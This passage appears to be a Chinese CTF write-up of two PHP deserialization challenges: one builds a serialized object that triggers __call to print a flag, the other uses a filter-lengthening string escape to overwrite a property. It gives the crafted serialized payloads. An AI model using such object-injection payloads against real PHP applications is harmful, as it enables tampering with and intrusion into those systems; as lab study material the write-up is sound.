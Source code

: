 ![image-20220208202613945](C:\Users\qte\AppData\Roaming\Typora\typora-user-images\image-20220208202613945.png)

**level7 __call与属性的初始值**

```php
<?php
class you
{
    private $body;
    private $pro;
    function __construct(){
        $this->body=new my();
        $this->pro='yourname';
    }
    function __destruct()
    {
        $project=$this->pro;
        $this->body->$project();
    }
}

class my
{
    public $name='myname';

    function __call($func, $args)
    {
        if ($func == 'yourname' and $this->name == 'myname') {
            include('flag.php');
            echo $flag;
        }
    }
}
$p=new you();
echo serialize($p);
//大写S
//O:3:"you":2:{S:9:"\00you\00body";O:2:"my":1:{s:4:"name";s:6:"myname";}S:8:"\00you\00pro";s:8:"yourname";}
?>
```

**level8 反序列化增逃逸**

```php
<?php
highlight_file(__FILE__);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}
$a=new test('phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}');
//$a=new test('1');  O:4:"test":2:{s:4:"user";s:1:"1";s:4:"pass";s:8:"daydream";}
//逃逸内容：
//";s:4:"pass";s:8:"escaping";}
//计算需要链：
```